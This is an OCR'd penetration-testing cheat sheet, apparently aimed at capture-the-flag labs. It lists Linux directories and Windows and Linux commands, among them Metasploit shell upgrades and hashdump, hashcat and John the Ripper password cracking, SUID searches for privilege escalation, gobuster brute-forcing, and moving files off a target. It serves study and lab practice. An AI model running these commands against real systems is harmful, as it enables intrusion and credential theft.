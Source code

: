 [https:­//b­ook.ha­ckt­ric­ks.x­yz­/wi­ndo­ws/­act­ive­-di­rec­tor­y-m­eth­odology](https://book.hacktricks.xyz/windows/active-directory-methodology)

### Linux Directory Structure

|     |     |
| --- | --- |
| Directory Name | Usage |
| /var | /var contains things that are prone to change, such as websites, temporary files, config and databases |
| /bin | /bin contains execut­ables which are required by the system for emergency repairs, booting, and single user mode. |
| /usr/bin | /usr/bin contains any binaries that aren't required. |

### Windows cmd commands

|     |     |
| --- | --- |
| Discover users | ** net user |
| Read text file | ** type root.txt |
| list directory content | ** dir |
| Change directory | ** cd |
| Read file permission and owner | ** Right click > Properties > Details > Owner ** Goto security tab > edit permission > Add > enter the name of user you want to give permission |
| Upgrade Command Shell to Meterp­reter | sessions -u <no> or use use post/m­ult­i/m­ana­ge/­she­ll_­to_­met­erp­reter |
| Metasploit get hashes of users | hashdump |

### Linux Commands

|     |     |
| --- | --- |
| Command Name | Syntax |
| Vim Text Editor | ** i for insert ** esc to exit insert ** :wq to quit and save |
| Hashcat (crack password hash) | ** hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force |
| Scp (secure copy files) | ** Want to receive files from target<br> ** scp userna­me@­rem­ote­:/f­ile­/to­/send /where­/to/put |
| Base64 (move files) | ** base64 <fi­len­ame><br> ** Save the encoding in a file<br> ** base64 -d <fi­len­ame­_ba­se6­4_e­nco­din­g> |
| Gobuster (dir buster) | ** gobuster dir -u http://10.10.203.157:3333/ -w /usr/share/wordlists/dirb/common.txt |
| Processes running (under which user) | ps aux |
| SUID (set owner userId upon execution) binary | find / -perm -u=s -type f 2>/­dev­/null<br>Instead of rwx -> rws. Example - the suid bit is set on binary file password as other user should be able to change their password but the user wont have direct access to that file<br>So it has root privileges |
| Burp Suite (check acceptable file ext) | By sending request to Intruder and then spider attack ** Check response length to verify if the extension is acceptable or not<br>Python script by importing request library can also be used |
| Word count (count the no of lines in a file) | wc -l yourTe­xtFile |
| Whatweb | whatweb <ip><br>The WhatWeb tool is used to identify different web techno­logies used by the website. |
| Fim (view images from terminal) | fim <im­age­_name) |
| Curl (change user agent (browser type render content) and follow redire­ction) | curl -A "­J" -L "­htt­p:/­/10.10.23­1.1­16" |
| Python server to transfer files from remote to local | python3 -m http.s­erver <po­rt_­no> and access using the ip of remote machin­e:port no |
| Python server to transfer files from local to remote | wget http:/­/<u­r-i­p>:­<po­rt>­/<f­ile> |
| Extract zip | 7z e <zi­p_n­ame.zi­p> |
| Crack Zip | locate zip2john<br>zip2john <zi­pfi­le> > output.txt<br>john output.txt |